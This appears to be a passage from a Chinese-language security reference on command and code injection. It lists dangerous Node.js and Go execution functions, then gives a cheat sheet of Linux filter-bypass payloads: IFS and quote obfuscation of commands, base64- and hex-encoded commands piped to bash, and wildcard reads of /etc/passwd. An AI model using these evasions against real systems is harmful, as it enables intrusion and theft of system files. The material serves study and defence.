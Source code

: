 ### Node.js (JavaScript)

1. 命令执行
    
    
    | 模块/函数 | 描述 |
    | --- | --- |
    | `child_process.exec()` | 衍生一个shell，然后在该shell中执行命令。 |
    | `child_process.execSync()` | `exec()`的同步版本。 |
    | `child_process.spawn(..., {shell: true})` | 虽然`spawn`本身更安全，但如果开启`shell: true`选项，就和`exec`一样危险。 |
2. 代码执行
    
    
    | 函数 | 描述 |
    | --- | --- |
    | `eval()` | 执行一个字符串作为JavaScript代码。 |
    | `new Function()` | 通过字符串创建一个新的函数，等同于`eval`。 |
    | `setTimeout(string, ...)` | 如果第一个参数是字符串而不是函数，会被当作代码执行。 |
    | `setInterval(string, ...)` | 同上。 |

### GO

命令执行

| 包/函数 | 描述 |
| --- | --- |
| `exec.Command()` | 创建一个`Cmd`对象来执行命令。本身是安全的，因为它不会调用shell。 |
| `exec.Command("sh", "-c", command)` | **危险用法**。如果`command`字符串由用户提供，这就相当于直接调用shell，会产生命令注入。 |

Go没有内置的`eval`函数，代码执行通常需要借助其他不安全的库或插件机制。

## 命令执行绕过

### Linux/Unix

```bash
# 空格绕过
cat${IFS}file.txt
cat<>file.txt
X=$'cat\x20file.txt'&&$X

# 特殊字符绕过
wh''oa'm'i  # 单引号
w"h"o"a"m"i  # 双引号
w\h\o\a\m\i  # 转义符
whoa$@mi/wh$9oami  # 特殊变量

# 编码绕过
echo "d2hvYW1p" | base64 -d | bash  # Base64
echo "77686F616D69" | xxd -r -p | bash  # Hex

# 通配符利用
cat /???/pass*  # 读取/etc/passwd
/???/c?t /???/pass*  # 使用通配符调用命令
```
